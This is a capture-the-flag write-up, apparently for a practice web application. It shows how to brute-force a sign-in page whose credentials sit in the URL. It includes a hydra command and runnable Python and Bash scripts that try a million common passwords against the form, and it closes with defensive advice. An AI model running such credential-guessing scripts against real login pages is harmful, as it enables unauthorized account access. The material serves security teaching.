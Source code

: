 # 💪 Bruteforce

## 📖 Definition

A **brute-force attack** is a method used to gain unauthorized access to a system, network, or encrypted data by systematically trying all possible combinations of credentials or keys until the correct one is found. This type of attack relies on sheer computational power and persistence, making it one of the simplest, yet most resource-intensive and time-consuming, attack methods.

**Key Characteristics of a Brute-Force Attack:**

1. **Trial-and-Error Approach:** Attackers use software to automatically generate and test millions or billions of potential passwords, usernames, or encryption keys, often using algorithms that speed up this trial-and-error process.

2. **No Subtlety or Sophistication:** Unlike other types of cyber attacks that may rely on exploiting specific vulnerabilities, brute-force attacks don't require intricate knowledge of the target system. The approach is purely a numbers game: try everything until something works.

3. **Dependent on Computational Power:** The speed and feasibility of a brute-force attack are heavily influenced by the processing power available to the attacker. More powerful systems (or botnets of compromised machines working together) can test combinations faster.

4. **Types of Brute-Force Attacks:**

	- **Simple Brute-Force Attack:** Every possible combination of characters is tested, regardless of the target's characteristics.
	- **Dictionary Attack:** Attackers use a predefined list of likely passwords, often based on commonly used passwords or information known about the target.
	- **Hybrid Attack:** Combines a dictionary attack with variations on each entry, such as adding numbers or symbols to commonly used words.

## 🔍 Discovery

On the **Signin** page, we try several `username:password` combinations after realizing that the `username` and `password` are directly filled in the URL in this format: `username=<username>&password=<password>`.
So, at this point, we can code a little Python script to test all the possibilities with the `root` username. Why with this username? Because we tested it first but, in fact, whatever it is, you'll get the flag if the password is good. For the dictionary, we use [this one](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt) from GitHub.

## 🏁 Flag

**1. The manual way:**

1. Take the passwords list on [this site](https://datanews.levif.be/actualite/le-top-25-des-mots-de-passe-les-plus-courants-et-les-plus-faibles/)
2. Go on the **Signin** page
3. In the username field, type whatever you want
4. In the password field, test all the passwords in the list

**2. Using Hydra:**

1. Download and store the dictionary by running:

```bash
curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

2. Find the password by running:

```bash
hydra -l root -P dictionary -F -V "<ip>" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

## 💡 Solutions

We provide two solutions: a Python and a Bash script.

**script.py**

```Python
import requests, sys, subprocess

password_list_url = "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt"
username = "root"

def get_password_list(url):
	response = requests.get(url)
	return response.text.splitlines()

def run_curl_command(ip, password):
	curl_command = f'curl -s "http://{ip}/index.php?page=signin&username={username}&password={password}&Login=Login#"'
	grep_command = "grep flag | awk -F': | <' '{print \"\\nThe flag is: \"$2}'"
	
	full_command = f"{curl_command} | {grep_command}"
	
	try:
		result = subprocess.check_output(full_command, shell=True, stderr=subprocess.PIPE)
		return result.decode().strip()
	except subprocess.CalledProcessError:
		return None

def bruteforce(ip):
	try:
		response = requests.get(f"http://{ip}", timeout=3)
		response.raise_for_status()
	except requests.exceptions.RequestException as e:
		print("Connection failed. Bad IP or network issue!")
		return False

	password_list = get_password_list(password_list_url)
	for password in password_list:
		password = password.strip()
		
		flag = run_curl_command(ip, password)
		
		if flag:
			print(f"Success! Username: {username} Password: {password}")
			print(flag)
			return True
	
	print("Password not found in the list.")
	return False

def main():
	if len(sys.argv) != 2:
		print("Usage: python script.py <ip>")
		sys.exit(1)
	bruteforce(sys.argv[1])

if __name__ == "__main__":
	main()
```

It first checks if the provided IP address is reachable by sending a `GET` request. It then downloads a list of common passwords from a specified URL and iterates through each password, attempting to log in with the username `root`. For each password, it constructs a `curl` command to attempt a login on the target site, and pipes the result to `grep` to check if the word "flag" appears in the response, indicating a successful login. If the word "flag" is found, the script prints the valid username, password, and the extracted flag, then stops. If no valid password is found after testing all options, it prints a failure message.

**script.sh**

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
	echo "Usage: ./script.sh <ip>"
	exit 1
fi

ip=$1

function exec_hydra {
	curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
	output=$(hydra -l root -P dictionary -F -V "$ip" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif')
	password=$(echo "$output" | grep -oP 'password: \K\S+')
	rm dictionary
}

if command -v hydra &> /dev/null; then
	echo "Hydra is installed."
	exec_hydra
else
	echo "Hydra is not installed."
	echo "Installation..."
	git clone https://github.com/vanhauser-thc/thc-hydra.git
	cd thc-hydra
	./configure --prefix=$HOME/.local
	make
	make install
	export PATH=$HOME/.local/bin:$PATH
	source ~/.bashrc
	source ~/.zshrc
	exec_hydra
fi

curl "http://$ip/index.php?page=signin&username=root&password=$password&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag is: "$2}'
```

It first checks if the provided IP address argument is supplied. If not, it prints a usage message and exits. The script then verifies if Hydra is installed by checking for the `hydra` command. If Hydra is found, it downloads a common password dictionary using `curl`, runs Hydra with the password list to brute-force the login page (/index.php), and extracts the password found from the Hydra output using `grep`. The password is stored in a variable, and the dictionary file is deleted afterward. If Hydra is not installed, the script clones the Hydra repository from GitHub, compiles, installs it locally, and sets the necessary environment variables before running Hydra. Finally, the script sends a `curl` request with the found password to the login page and extracts the flag from the response using `grep` and `awk`, printing the flag if found.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Password Complexity:** Requiring complex, long passwords makes brute-forcing more time-consuming.
- **Account Lockouts:** Locking an account after several failed attempts can thwart brute-force efforts.
- **Multi-Factor Authentication (MFA):** Adding an additional layer of security (e.g., a verification code sent to the user) can stop a brute-force attack even if a password is successfully guessed.
- **Rate Limiting and Captchas:** These limit the number of attempts an attacker can make in a given timeframe, slowing down or deterring brute-force attempts.

To better understand the importance to have a stong password, here is a chart to estimate the time it takes a hacker to brute force your password in 2024:

![](https://images.squarespace-cdn.com/content/5ffe234606e5ec7bfc57a7a3/1719499399309-7FRIR5QNH5P4VHC1AGGP/Hive+Systems+Password+Table+-+2024+Rectangular.png?format=1500w&content-type=image%2Fpng)
